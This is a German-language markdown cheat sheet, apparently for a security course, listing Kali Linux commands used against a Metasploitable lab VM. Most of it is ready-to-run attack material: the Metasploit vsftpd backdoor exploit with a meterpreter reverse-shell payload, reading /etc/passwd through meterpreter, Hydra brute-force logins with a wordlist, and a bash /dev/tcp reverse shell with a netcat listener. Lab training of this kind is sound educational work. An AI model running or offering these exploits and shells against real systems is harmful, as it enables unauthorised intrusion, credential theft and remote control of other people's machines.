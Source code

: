 # ITSE – Kali & Metasploitable Codesammlung

Dieses Dokument enthält wichtige Befehle, die im Unterricht und bei Laborübungen
mit **Kali Linux** und **Metasploitable** nützlich sind.  
Es dient als schnelle Referenz für Scans, Exploits und typische Angriffe.

---

## 🕵️‍♂️ 1. Netzwerkscan & Recon
```bash
# Aktive Hosts im Subnetz finden
nmap -sn 192.168.56.0/24

# Detail-Scan auf spezifischem Host (OS, Services, Versionen)
nmap -A 192.168.56.101

# Schneller Scan der Top-1000 Ports
nmap -T4 -F 192.168.56.101
```

⸻

⚡ 2. Metasploit Basics
```bash
# Metasploit starten
msfconsole

# Exploit suchen
search vsftpd

# Exploit laden
use exploit/unix/ftp/vsftpd_234_backdoor

# Ziel setzen
set RHOST 192.168.56.101

# Payload wählen (Reverse Shell)
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.56.1
set LPORT 4444

# Angriff starten
exploit
```

⸻

💻 3. Meterpreter Essentials
```bash
# Offene Sessions anzeigen
sessions

# Mit Session verbinden
sessions -i 1

# Systeminfos auslesen
sysinfo

# Shell auf Zielsystem öffnen
shell

# Dateien hochladen/herunterladen
download /etc/passwd
upload localfile.txt /tmp/
```

⸻

🔑 4. Passwortangriffe
```bash
# Hydra – SSH Brute Force
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.101

# HTTP Basic Auth Attacke
hydra -l admin -P passwords.txt 192.168.56.101 http-get /protected
```

⸻

🌐 5. Web-Scanning & Schwachstellen
```bash
# Nikto – Webserver-Schwachstellen finden
nikto -h http://192.168.56.101

# Dirb / Gobuster – Versteckte Verzeichnisse finden
gobuster dir -u http://192.168.56.101 -w /usr/share/wordlists/dirb/common.txt
```

⸻

🐧 6. Nützliche Linux Kommandos
```bash
# IP-Adresse der Kali VM anzeigen
ip a

# Aktuellen Benutzer anzeigen
whoami

# Dienste und offene Ports prüfen
netstat -tulpn
```

⸻

🔄 7. Reverse Shell Beispiele
```bash
# Netcat Listener auf Angreifer
nc -lvnp 4444

# Reverse Shell auf Ziel (wenn möglich)
bash -i >& /dev/tcp/192.168.56.1/4444 0>&1
```

